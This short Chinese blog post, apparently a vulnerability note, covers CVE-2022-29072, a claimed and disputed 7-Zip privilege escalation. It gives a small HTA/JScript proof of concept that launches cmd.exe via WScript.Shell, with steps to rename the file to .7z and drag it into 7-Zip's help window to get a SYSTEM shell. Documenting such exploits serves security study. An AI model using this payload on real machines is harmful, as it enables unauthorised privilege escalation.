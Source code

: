 ```yaml
---
title: 7-zip权限提升漏洞【CVE-2022-29072】
tags:
  - 权限提升
  - 7-zip
  - CVE-2022-29072
categories:
  - - 漏洞分析
abbrlink: e8630e46
date: 2025-04-14 10:33:52
---
```

这玩意儿很简单，原理不清楚，不过7-zip官方并不承认这个漏洞，他们说这个洞是微软的锅，不过我看也确实是。
```xml
<html>
<head>
<HTA:APPLICATION ID="7zipcodeexec">
<script language="jscript">
var c = "cmd.exe";
new ActiveXObject('WScript.Shell').Run(c);
</script>
<head>
<html>
```
找个文本文件把上面的内容写进去，然后讲后缀名改为7z。然后讲这个文件拖动到7zip的helper窗口中就会弹出DOS窗口，查看当前权限可以看到为system权限

